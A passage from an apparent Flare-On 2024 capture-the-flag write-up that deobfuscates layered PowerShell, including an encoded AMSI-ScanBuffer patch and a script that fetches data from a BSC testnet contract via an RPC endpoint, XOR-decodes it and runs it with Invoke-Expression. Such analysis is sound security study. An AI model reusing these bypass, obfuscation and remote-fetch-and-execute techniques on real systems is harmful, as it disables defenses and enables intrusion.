0x6da2ad09ec61dfc9305d4f58cc2758a0dbe3429e7726cc2098a2ae425bc6c9ef
- (base64 but decoding makes no sense)


0xd086acbcedd08bf533457e627529a1206ad5e4461478ae2ce20be51659ac2734
- (base64 but decoding makes no sense)


0xd4c9d45de5f45f855d117938b2fb8bea1ac4691aaf43cb6fab5dcb5fcd47c278
- (base64 but decoding makes no sense)


0x88336b0a629fd096c5b8e031c603abd78f2fba0a0b09b3b03e1219098849fa73
- (base64 but decoding makes no sense)


0x096bc2f76176518f7f0ca267d1ac53e9bda8d49a3e4013f84d812dbd3cf479f8
- (base64 but decoding makes no sense)
```

Clearly the most interesting transaction is this:
```powershell
[sYstEm.Text.eNCODinG]::unicodE.getStrinG([sYstEm.cONvErt]::FroMbaSE64stRInG("IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAZgBoAGYAeQBjACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwANAAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABmAGgAZgB5AGMAIAB7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AFAAcgBvAGMAQQBkAGQAcgBlAHMAcwAoAEkAbgB0AFAAdAByACAAaABNAG8AZAB1AGwAZQAsACAAcwB0AHIAaQBuAGcAIABwAHIAbwBjAE4AYQBtAGUAKQA7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEwAbwBhAGQATABpAGIAcgBhAHIAeQAoAHMAdAByAGkAbgBnACAAbgBhAG0AZQApADsADQAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyACIAKQBdAA0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABWAGkAcgB0AHUAYQBsAFAAcgBvAHQAZQBjAHQAKABJAG4AdABQAHQAcgAgAGwAcABBAGQAZAByAGUAcwBzACwAIABVAEkAbgB0AFAAdAByACAAaQB4AGEAagBtAHoALAAgAHUAaQBuAHQAIABmAGwATgBlAHcAUAByAG8AdABlAGMAdAAsACAAbwB1AHQAIAB1AGkAbgB0ACAAbABwAGYAbABPAGwAZABQAHIAbwB0AGUAYwB0ACkAOwANAAoAfQANAAoAIgBAAA0ACgANAAoAQQBkAGQALQBUAHkAcABlACAAJABmAGgAZgB5AGMADQAKAA0ACgAkAG4AegB3AHQAZwB2AGQAIAA9ACAAWwBmAGgAZgB5AGMAXQA6ADoATABvAGEAZABMAGkAYgByAGEAcgB5ACgAIgAkACgAKAAnAOMAbQBzAO0ALgAnACsAJwBkAGwAbAAnACkALgBOAE8AcgBtAEEAbABpAHoARQAoAFsAYwBIAGEAUgBdACgANwAwACoAMwAxAC8AMwAxACkAKwBbAGMAaABhAHIAXQAoADEAMQAxACkAKwBbAEMAaABhAHIAXQAoAFsAQgB5AHQAZQBdADAAeAA3ADIAKQArAFsAQwBIAGEAUgBdACgAMQAwADkAKwA2ADAALQA2ADAAKQArAFsAQwBoAGEAUgBdACgANQA0ACsAMQA0ACkAKQAgAC0AcgBlAHAAbABhAGMAZQAgAFsAYwBoAGEAUgBdACgAWwBiAFkAVABFAF0AMAB4ADUAYwApACsAWwBDAEgAYQByAF0AKABbAGIAWQBUAEUAXQAwAHgANwAwACkAKwBbAEMAaABBAFIAXQAoADEAMgAzACsAMgAtADIAKQArAFsAQwBIAGEAcgBdACgAWwBiAHkAdABlAF0AMAB4ADQAZAApACsAWwBDAGgAQQBSAF0AKABbAGIAWQBUAEUAXQAwAHgANgBlACkAKwBbAGMAaABhAHIAXQAoAFsAYgB5AFQARQBdADAAeAA3AGQAKQApACIAKQANAAoAJABuAGoAeQB3AGcAbwAgAD0AIABbAGYAaABmAHkAYwBdADoAOgBHAGUAdABQAHIAbwBjAEEAZABkAHIAZQBzAHMAKAAkAG4AegB3AHQAZwB2AGQALAAgACIAJAAoACgAJwDBAG0AcwDsAFMAYwAnACsAJwDkAG4AQgB1AGYAZgAnACsAJwBlAHIAJwApAC4ATgBPAHIAbQBBAEwASQB6AEUAKABbAEMASABhAFIAXQAoAFsAYgBZAFQARQBdADAAeAA0ADYAKQArAFsAQwBoAGEAcgBdACgAWwBiAFkAVABlAF0AMAB4ADYAZgApACsAWwBjAEgAQQByAF0AKABbAGIAWQBUAEUAXQAwAHgANwAyACkAKwBbAEMASABhAHIAXQAoADEAMAA5ACkAKwBbAGMASABhAFIAXQAoAFsAQgB5AFQAZQBdADAAeAA0ADQAKQApACAALQByAGUAcABsAGEAYwBlACAAWwBjAGgAQQBSAF0AKAA5ADIAKQArAFsAQwBoAGEAcgBdACgAWwBiAHkAVABFAF0AMAB4ADcAMAApACsAWwBjAGgAYQBSAF0AKABbAGIAWQBUAEUAXQAwAHgANwBiACkAKwBbAGMAaABhAFIAXQAoAFsAQgBZAHQARQBdADAAeAA0AGQAKQArAFsAYwBoAGEAcgBdACgAMgAxACsAOAA5ACkAKwBbAGMAaABhAFIAXQAoADMAMQArADkANAApACkAIgApAA0ACgAkAHAAIAA9ACAAMAANAAoAWwBmAGgAZgB5AGMAXQA6ADoAVgBpAHIAdAB1AGEAbABQAHIAbwB0AGUAYwB0ACgAJABuAGoAeQB3AGcAbwAsACAAWwB1AGkAbgB0ADMAMgBdADUALAAgADAAeAA0ADAALAAgAFsAcgBlAGYAXQAkAHAAKQANAAoAJABoAGEAbAB5ACAAPQAgACIAMAB4AEIAOAAiAA0ACgAkAGQAZABuAGcAIAA9ACAAIgAwAHgANQA3ACIADQAKACQAeABkAGUAcQAgAD0AIAAiADAAeAAwADAAIgANAAoAJABtAGIAcgBmACAAPQAgACIAMAB4ADAANwAiAA0ACgAkAGUAdwBhAHEAIAA9ACAAIgAwAHgAOAAwACIADQAKACQAZgBxAHoAdAAgAD0AIAAiADAAeABDADMAIgANAAoAJAB5AGYAbgBqAGIAIAA9ACAAWwBCAHkAdABlAFsAXQBdACAAKAAkAGgAYQBsAHkALAAkAGQAZABuAGcALAAkAHgAZABlAHEALAAkAG0AYgByAGYALAArACQAZQB3AGEAcQAsACsAJABmAHEAegB0ACkADQAKAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AEMAbwBwAHkAKAAkAHkAZgBuAGoAYgAsACAAMAAsACAAJABuAGoAeQB3AGcAbwAsACAANgApAA=="))|iex
```

Let's decode it:
```powershell
invOKe-eXpREsSIon (NeW-OBJeCt SystEm.Io.StReaMREAdeR((NeW-OBJeCt Io.COMPRESsIOn.deflATestream( [sYSTeM.Io.memORyStREaM] [cONvErt]::fROmbAsE64StriNg('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' ) , [iO.compRESSION.CompREsSionMode]::dEcoMPrEss ) ) , [SyStEm.TEXt.EnCodINg]::asCII)).ReaDTOEND()
```


This is again base64, but this time is also compressed. Let's unpack it with the following script:
```bash
$base64data = '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'
$data = [System.Convert]::FromBase64String($base64data)
$ms = New-Object System.IO.MemoryStream
$ms.Write($data, 0, $data.Length)
$ms.Seek(0,0) | Out-Null

$sr = New-Object System.IO.StreamReader(New-Object System.IO.Compression.DeflateStream($ms, [System.IO.Compression.CompressionMode]::Decompress))
$sr.ReadToEnd()
```

And we endup with an obfuscated powershell script:
```powershell
(("{39}{64}{57}{45}{70}{59}{9}{66}{0}{31}{21}{50}{6}{56}{5}{22}{69}{71}{43}{60}{8}{35}{68}{44}{1}{19}{41}{30}{67}{38}{18}{7}{33}{54}{63}{34}{61}{24}{48}{4}{47}{3}{40}{51}{26}{42}{15}{37}{12}{10}{11}{52}{14}{23}{29}{53}{25}{16}{49}{55}{62}{36}{27}{28}{13}{17}{46}{20}{2}{65}{58}{32}"-f 'CSAKoY+K','xed','P dKoY+KoYohteM- doKoY+KoYhteMtseR-ekovnI(( eulaV- pser emaN- elbairaV-teS
)1aP}Iz70.2Iz7:Iz7cprnosjIzKoY+KoY7,1:Iz7diIz7,]KCOLB ,}Iz7bcf088c5x0Iz7:Iz7atadIz7,KoY+KoYIz7sserddaK6fIz7:Iz7otIz7KoY+KoY{[:Iz7smarapIz7,Iz7llac_hteIz7:Iz7d','aBmorFsKoY+KoYetybK6f(gnirtSteKoY+KoYG.8FTU::]gniKoY+KoYdocnE.txeKoY+KoYT.metsyS[( KoY+KoYeulaV- KoY+KoYiicsAtluser emaN-KoY+KoY elbairaV-teS
))2setybK6f(gniKoY+KoYrtS46esaBmorF::]trevnoC[( eulaV- 46esaBmorFsetyb ema','tamroF #  _K6f f- 1aP}2X:0{1aP    
{ tcejbO-hcaEroF sOI ii','KoY+KoYab tlKoY+KoYuKoY+KoYser eht trevnoC #
}
 ))]htgneL.setyByekK6f % iK6f[setyByekK6f roxb-','teS
)gnidocne IICSA gnimussa( gnirts','KoY+KoYV-','eT[( eulaV- 5setyb emaN- elbairaV-teS
)}
)61 ,)2 ,xednItratsK6f(gnirtsbuS.setyBxehK6f(etyBo','c[((EcALPER.)93]RAHc[]GnIRTS[,)94]RAHc[+79]RAHc[+08]RAHc[((EcALPER.)63]RAHc[]GnIRTS[,)57]RAHc[+45]RAHc[+201]RAHc[((EcALPER.)KoY
dnammocK6f noisserpxE-ekovnI
)Iz7galfZjWZjW:C f- 1aPgaKoY+KoYlfZjWZjW:C > gnirtStlKoY+KoYuserK6KoY+KoYf ohce c/ dm','N- ','elbai','yb ema',')tl','.rebmuNxehK6f(etyBoT::]trevnoC[  ','0setybK6f(gni','Y+KoYcejbO-hcaEroFKoY+KoY sOI )1','user.)ydob_K6f ydoB- Iz7nosj/noitacil','usne( setyb ot xeh KoY+KoYmorf trevnoC #
)Iz7Iz7 ,Iz7 Iz7 ecalper- setyBxehK6f(KoY+KoY eula','nItrats em','noKoY+KoYC- tniopdne_tentsetK6f irU- 1aPtsoP1a','eT.metsyS[( eulaV- gnirtStluser emaN-',' ]iK6f[5setybK6f( + setyBtluserK6f( eulaV- ','KoY+KoY  
)1 + xednKoY+KoYItratsK6f( eu','eS
)}
srettel esacrKoY+KoYeppu htiw xeh tigid-',' KoY+KoYtKo','ulaV','f( eulaV','- rebmuNxeh emaN- elbairaV-teS
xiferp 1aPx01aP eht evomeR KoY+KoY#

','laV- xednIdne KoY+KoYema','F sOI )1 ','oY::]gnidocnE.tx','eSKoY( G62,KoY.KoY ,KoYriGHTToLeftKoY) DF9%{X2j_ } )+G62 X2j(set-ITEM  KoYvArIAbLE:oFSKoY KoY KoY )G62) ',' setyBxeh em','etirW#
 )1aP 1aP KoY+KoYnioj- setyBxehK6f( eulaV- gnirtSxehKoY+KoY emaN- elbairaKoY+KoY','T::]trevnoC[    
)1 + xednItra','alper- pserK6','rtSteG.8FTU::]gnidocnE.txeT.metsyS[( eulaV- 1set','elbairaV-tKoY+KoYeS
)sretcarahc xeh fo sriap gnir','. ( X2jEnV:coMspec[4,26,25]-jOInKoYKoY)(G62X2j(set-iTem KoYVAriABle:OfSKoY  KoYKoY )G62 + ( [STrinG][REGEx]:','N- elbairaV-teS
sety','aN- elbairaV-teS    
{ tcejbO-hcaEro','- 2setyb emaN- eKoY+KoYlbairaV-teS
))',' eht mrofreP ','ne emaN- elbairKoY+KoYaV-teS    
)2 * _K6f( eulaV- ','-]2,11,3[EmAN.)KoY*rdm*KoY ElBAIrav((.DF9)421]RAHc[]GnIRTS[,KoYsOIKoY(EcALPER.)','ppaIz7 epyTtnet','csAtlKoY+KoYuserK6f( euKoY+KoYlaV- setyBxeh emaN- elbairaV-teS
))46es','owt sa etyb hcae ',' - 2 / htgneL.rebmuNxehK6f(..0( eulaV- 0setyb emaN- elbairaV-teS
)sretcarahc xeh fo sriap gnirusne(K',' elbairaV-','b ot 46esab morf trevnoC #

))881 ,46(gnirtsbuS.1setybK6f( e','raV-teS
 )}
)61 ,)2 ,xednItratsK6f(gnirtsbuS','N- elbairaV-teS    
)2 * _K6f( eulaV- xednItrats emaN- elbairaV-teS    
{','aN-','oY+KoY setyb ot xeh morf trevnoC #
)1aP1',' a ot kc','YNIoJ','aN- elbairaV-t','cALPER.)KoYaVIKoY,)09]RAHc[+601]RAHc[+78]RAH','#
))Iz742NOERALFIz7(setyBteG.IICSA::]gnidocnE.txeT[( eulaV- setyByek emaN- elbairaV-teKoY+KoYS
setyb ot yek eht trevnoC #
))3setybK6f(gnirtSteG.8FTU::]gnidocnE.tx','V-t','aP ,1aPx01aP ec',' elbairaV-teS
gnirtSxKoY+KoYehK6f tuKoY+KoYptuO-',':MATCHeS(G62)KoYKo','ohtemIz7{1aP( eulaV- ydob_ emaN- elbairaV-teS
)Iz7 Iz7( eulaV-KoY+KoY tniKoY+KoYopdne_tentset em','c1aP maKoY+KoYrgorp-sserpmoc-esu-- x- ratIzKoY+KoY7( eulaV-KoY+KoY dnammoc emaKoY+KoYN- elbairaV-teS

))setyBtluserK6f(gnirtSteGKoY+KoY.II','- 2 / htgneL.setyBxehK6f(..0( eulaV- 3setyb emaN- ','tsK6f( eulaV- xednId','setyBtluser emaN- ','43]RAHc[]GnIRTS[,)37]RAHc[+221]RAHc[+55]RAHc[((E','elbairaVKoY+KoY-teS    
{ )++iK6f ;htgneL.5setybK6f tl- iK6f ;)0( eulaV- i emaN- elbairaV-teS( rof
))(@( eulaV- setyBtluser emaN- KoY+KoYelbairaV-teS
noitarepo ROX')).REpLACE('DF9','|').REpLACE('KoY',[STrinG][cHaR]39).REpLACE(([cHaR]71+[cHaR]54+[cHaR]50),[STrinG][cHaR]34).REpLACE('X2j','$').REpLACE('aVI',[STrinG][cHaR]92) | &( ([stRing]$VErboSEpRefeReNCe)[1,3]+'X'-joiN'')
```


We run it and we get a crash. We type `($Error[0]).InvocationInfo.Line` to see where the problem is:



We end up with the deobfuscated version of the above powershell: 
```powershell
Set-Variable -Name testnet_endpoint -Value (" ")Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{"to":
"$address","data":"0x5c880fcb"}, BLOCK],"id":1,"jsonrpc":"2.0"}')Set-Variable -Name resp -Value ((Invoke-RestMethod -Me
thod 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)# Remove the '0x' prefixSet-Var
iable -Name hexNumber -Value ($resp -replace '0x', '')# Convert from hex to bytes (ensuring pairs of hex characters)Set
-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | ForEach-Object {    Set-Variable -Name startIndex -Valu
e ($_ * 2)    Set-Variable -Name endIndex -Value ($startIndex + 1)    [Convert]::ToByte($hexNumber.Substring($startInde
x, 2), 16)}) Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))Set-Variable -Name bytes
2 -Value ($bytes1.Substring(64, 188))# Convert from base64 to bytesSet-Variable -Name bytesFromBase64 -Value ([Convert]
::FromBase64String($bytes2))Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBas
e64))Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object {    '{0:X2}' -f $_  # Format each byte as two-d
igit hex with uppercase letters})Set-Variable -Name hexString -Value ($hexBytes -join ' ') #Write-Output $hexStringSet-
Variable -Name hexBytes -Value ($hexBytes -replace " ", "")# Convert from hex to bytes (ensuring pairs of hex character
s)Set-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {    Set-Variable -Name startIndex -
Value ($_ * 2)    Set-Variable -Name endIndex -Value ($startIndex + 1)    [Convert]::ToByte($hexBytes.Substring($startI
ndex, 2), 16)})Set-Variable -Name bytes5 -Value ([Text.Encoding]::UTF8.GetString($bytes3))# Convert the key to bytesSet
-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))# Perform the XOR operationSet-Variable -
Name resultBytes -Value (@())for (Set-Variable -Name i -Value (0); $i -lt $bytes5.Length; $i++) {    Set-Variable -Name
 resultBytes -Value ($resultBytes + ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length])) }# Convert the result back to
 a string (assuming ASCII encoding)Set-Variable -Name resultString -Value ([System.Text.Encoding]::ASCII.GetString($res
ultBytes))Set-Variable -Name command -Value ("tar -x --use-compress-program 'cmd /c echo $resultString > C:\\flag' -f C
:\\flag")Invoke-Expression $command
```

Let's clean it up a little:
```
Set-Variable -Name testnet_endpoint -Value ("https://bsc-testnet.blockpi.network/v1/rpc/public")
Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{"to":"0x5324EAB94b236D4d1456Edc574363B113CEbf09d","data":"0x5c880fcb"}, 43152014],"id":1,"jsonrpc":"2.0"}')

Set-Variable -Name resp -Value ((Invoke-RestMethod -Method 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)

# Remove the '0x' prefix

Write-Host $resp

Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | ForEach-Object {    Set-Variable -Name startIndex -Value ($_ * 2)    Set-Variable -Name endIndex -Value ($startIndex + 1)    [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)}) 

Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))Set-Variable -Name bytes2 -Value ($bytes1.Substring(64, 188))

# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64String($bytes2))
Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBase64))
Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object {    '{0:X2}' -f $_  # Format each byte as two-digit hex with uppercase letters
})

Set-Variable -Name hexString -Value ($hexBytes -join ' ') 

#Write-Output $hexString
Set-Variable -Name hexBytes -Value ($hexBytes -replace " ", "")

# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {    Set-Variable -Name startIndex -Value ($_ * 2)    Set-Variable -Name endIndex -Value ($startIndex + 1)    [Convert]::ToByte($hexBytes.Substring($startIndex, 2), 16)})

Set-Variable -Name bytes5 -Value ([Text.Encoding]::UTF8.GetString($bytes3))

# Convert the key to bytes
Set-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))
# Perform the XOR operation

Set-Variable -Name resultBytes -Value (
@()
)
for (Set-Variable -Name i -Value (0); $i -lt $bytes5.Length; $i++) 
{   
 Set-Variable -Name resultBytes -Value ($resultBytes + ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length])) 
}

# Convert the result back to a string (assuming ASCII encoding)
Set-Variable -Name resultString -Value ([System.Text.Encoding]::ASCII.GetString($resultBytes))

Write-Host $resultString
#Set-Variable -Name command -Value ("tar -x --use-compress-program 'cmd /c echo $resultString > C:\\flag' -f C:\\flag")Invoke-Expression $command
```

This script (it even has comments) reads transactions from the address
`0x5324EAB94b236D4d1456Edc574363B113CEbf09d`. Then it **base64** decodes them and gets a
**hexString**. Then it converts this hexString into **hexBytes**. Finally it **XORs** it with
`FLAREON24`. Let's go back and get the strings that did not make sense before and decrypt them:
```python
gibberish = [
  b'A:z{<|=JPN^vDUg\x11P^f\x15:U?\x17<=Q\x15aUYAm9NBck|A"e`\nlec',
  b'\x08|5\rv9}\\k\x02\x1c\x13\x19\x1a&{m`.}t\rt|}\x05kw"\x1e\x05 -}rR*-37h  \x1cW)!',
  b"\x0fl6;6'nF\\/?a%$<nF\\#l'>$(",
  b'\x1f)5r( <W\x14(#(! no',
